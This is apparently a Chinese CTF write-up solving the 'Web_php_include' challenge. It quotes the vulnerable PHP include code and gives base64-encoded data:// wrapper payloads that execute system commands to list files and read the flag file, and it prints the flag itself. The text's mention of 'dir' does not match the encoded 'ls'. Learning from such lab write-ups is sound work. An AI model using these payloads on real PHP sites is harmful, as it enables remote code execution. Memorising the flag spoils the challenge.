 # T4 Web_php_include

> 题目：攻防世界 Web_php_include

__0x00 审题__

打开题目如下：

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

__0x01 解题__

> 因为最近刚看了PHP伪协议，所以打算用它来做

* 代码中有一块过滤了php://，我们可以用其他协议，例如：data：//

> 小介绍（data：//）：php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

1. 引用 \<?php system("dir")?>，构造payload： ?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=  （base64编码之前有过工具链接）

2. 发现文件“fl4gisisish3r3.php”，采用 \<?php system("cat fl4gisisish3r3.php")?>,构造

payload:data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==

__0x02 答案__

得到flag：ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}

> 不是总结，但是后话
>
> 这个题方法应该有很多，就光见到的wp就用很多种，鉴于个人水平有限就提一种，未完待续...
